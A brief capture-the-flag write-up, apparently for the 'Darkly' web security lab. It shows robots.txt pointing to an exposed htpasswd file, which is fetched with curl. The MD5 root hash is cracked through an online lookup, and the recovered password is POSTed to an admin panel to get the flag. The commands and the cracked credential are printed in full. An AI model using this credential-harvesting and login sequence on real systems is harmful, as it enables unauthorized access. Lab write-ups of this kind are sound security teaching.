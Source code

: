 If we visited robots.txt we get the following paths

```
User-agent: *
Disallow: /whatever
Disallow: /.hidden
```

Following the path whatever we get the follwing output

```
Index of /whatever/

../
htpasswd                                           29-Jun-2021 18:09                  38
```

Using curl to get the content of htpassd

```
*[main][/goinfre/mashad/projects/darkly]$ curl http://10.12.177.95/whatever/htpasswd
root:437394baff5aa33daa618be47b75cb49
*[main][/goinfre/mashad/projects/darkly]$ 
```

It's seems that its a hashed password, we going to use https://crackstation.net to try and crack the password.

Crackstation results was as bellow:

**437394baff5aa33daa618be47b75cb49 - qwerty123@ - Possible algorithms: MD5**

After digging more into hidden directories we found a login pannel for admin in the following url: http://10.12.177.95/admin/

Using curl to POST the username and password and get the flag

```
*[main][/goinfre/mashad/projects/darkly]$ curl -X POST -d "username=root&password=qwerty123@&Login=Login" http://10.12.177.95/admin/

<center><h2 style="margin-top:50px;">The flag is : d19b4823e0d5600ceed56d5e896ef328d7a2b9e7ac7e80f4fcdb9b10bcb3e7ff </h2><br/><img src="../images/whoami.gif" alt=""><br /><br /><img src="../images/congratz.jpg" alt=""></center>%

*[main][/goinfre/mashad/projects/darkly]$ 
```